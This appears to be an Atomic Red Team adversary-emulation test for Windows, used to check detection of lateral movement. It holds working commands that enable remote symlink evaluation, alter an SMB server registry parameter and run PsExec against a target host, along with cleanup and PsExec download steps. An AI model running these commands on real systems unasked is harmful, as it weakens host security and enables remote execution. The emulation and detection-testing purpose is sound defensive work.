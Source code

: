 **Supported Platforms:** Windows


**auto_generated_guid:** 31eb7828-97d7-4067-9c1e-c6feb85edc4b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| targethost | Target hostname to attempt psexec connection to for emulation of lateral movement. | string | $ENV:COMPUTERNAME|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cmd.exe /c "wmic 	csproduct 	get UUID" 
cmd.exe /c "fsutil behavior 	set SymlinkEvaluation R2L:1" 
cmd.exe /c "fsutil behavior set 	SymlinkEvaluation R2R:1"
reg    add    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters    /v MaxMpxCt /d 65535 /t REG_DWORD /f      
copy "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" $env:temp
cmd.exe /c "$env:temp\psexec.exe  -accepteula  \\#{targethost} cmd.exe  /c echo "--access-token""
```

#### Cleanup Commands:
```powershell
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /f
cmd.exe /c "fsutil behavior set SymlinkEvaluation R2L:0" 
cmd.exe /c "fsutil behavior set SymlinkEvaluation R2R:0"
rm $env:temp\psexec.exe
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```
